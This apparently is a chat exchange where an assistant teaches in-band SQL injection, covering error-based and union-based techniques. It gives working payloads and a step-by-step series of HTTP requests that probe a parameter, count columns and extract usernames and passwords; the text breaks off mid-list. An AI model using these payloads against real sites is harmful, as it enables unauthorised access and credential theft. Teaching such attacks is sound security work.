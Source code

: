 

# In-Band SQL Injection (SQLi)

In-Band SQL Injection is one of the most common and straightforward types of SQL injection attacks where the attacker uses the same communication channel to both launch the attack and gather results.

## Types of In-Band SQLi:

1. **Error-Based SQLi**:
   - Relies on error messages returned by the database server
   - Attacker intentionally causes errors to extract information
   - Example: `' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`

2. **Union-Based SQLi**:
   - Uses the UNION SQL operator to combine results from multiple SELECT statements
   - Requires knowledge of the database structure
   - Example: `' UNION SELECT username, password FROM users--`

## Characteristics:
- Results are returned directly in the application's response
- Easier to exploit than other types (blind SQLi)
- Often used for data extraction

## Prevention:
- Use parameterized queries/prepared statements
- Implement proper error handling (don't show DB errors to users)
- Apply principle of least privilege for DB accounts
- Use web application firewalls (WAFs)

Explain Error Based and Union Based a bit more

 # In-Band SQL Injection: Error-Based and Union-Based

## Error-Based SQL Injection

Error-based SQL injection is a technique where attackers deliberately cause the database to generate error messages that reveal information about the database structure or contents.

**How it works:**
1. The attacker submits malicious input that causes a SQL error
2. The application displays the error message (either directly or in logs)
3. The error contains sensitive information about:
   - Database structure (table names, column names)
   - Database type/version
   - Query syntax that can be exploited further

**Example:**
```sql
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
```
This might return an error like:
```
Conversion failed when converting the nvarchar value 'users' to data type int.
```
Revealing that there's a table called "users".

**Characteristics:**
- Relies on verbose error reporting
- Works even when no data is returned to the user
- Often used for reconnaissance before other attacks

## Union-Based SQL Injection

Union-based SQL injection leverages the UNION SQL operator to combine results from the original query with results from an injected query.

**How it works:**
1. The attacker determines the number of columns in the original query
2. They craft a UNION SELECT statement with matching columns
3. The database combines and returns results from both queries

**Example:**
```sql
' UNION SELECT username, password FROM users--
```

**Key requirements:**
1. Both queries must return the same number of columns
2. Corresponding columns must have compatible data types

**Process for exploitation:**
1. Find vulnerable parameter (through testing with `'` or `"`)
2. Determine number of columns (using ORDER BY or UNION SELECT NULL,...)
3. Identify which columns are displayed in output
4. Craft UNION SELECT to extract desired data

**Example step-by-step:**

Continue from Example Step-by-step


# In-Band SQL Injection: Error-Based and Union-Based - Continued

## Union-Based SQL Injection Step-by-Step Example

Let's walk through a complete example of exploiting a union-based SQL injection:

1. **Identify vulnerable parameter**:
   ```http
   GET /products?id=1' HTTP/1.1
   ```
   If this returns a database error, the parameter may be vulnerable.

2. **Determine number of columns**:
   Method 1 (ORDER BY):
   ```http
   GET /products?id=1 ORDER BY 1-- HTTP/1.1
   GET /products?id=1 ORDER BY 2-- HTTP/1.1
   ...
   ```
   When you exceed the number of columns (e.g., ORDER BY 5 fails), you've found the limit.

   Method 2 (UNION SELECT):
   ```http
   GET /products?id=1 UNION SELECT NULL-- HTTP/1.1
   GET /products?id=1 UNION SELECT NULL,NULL-- HTTP/1.1
   ...
   ```
   Continue adding NULLs until no error occurs.

3. **Find which columns are displayed**:
   Replace NULLs with numbers or strings to see which appear in output:
   ```http
   GET /products?id=999 UNION SELECT 111,'aaa',222-- HTTP/1.1
   ```
   999 ensures original query returns no results so we only see our injected data.

4. **Extract data**:
    Now replace the placeholders with real queries:
    ```http
    GET /products?id=999 UNION SELECT NULL,table_name,NULL FROM information_schema.tables-- HTTP/1.1
    ```

5. **Get sensitive data**:
    Once you know table and column names: 
    ```http
    GET /products?id=999 UNION SELECT NULL,username,password FROM users-- HTTP/1.1
    ```

## Error-Based SQL Injection Advanced Techniques

Attackers often use these functions for error-based extraction:

- `CONVERT()` or `CAST()` to force type conversion errors
- `EXEC()`
